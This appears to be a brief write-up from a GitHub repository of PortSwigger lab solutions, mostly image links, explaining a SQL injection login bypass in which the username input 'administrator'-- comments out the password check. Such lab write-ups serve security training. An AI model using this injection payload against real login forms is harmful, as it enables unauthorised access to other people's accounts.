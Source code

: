 ## Lab Description :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/1ca7809d-f736-496e-a186-69a54e499f2e)
## Solution :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/fadd94b7-ebef-4a7d-875c-4ca3a69bac72)
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/f2b8d3da-0a07-4ac5-a0a5-1905bedc421f)
Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/80889e38-9ae0-4b82-a7c1-a25864c2c1f7)
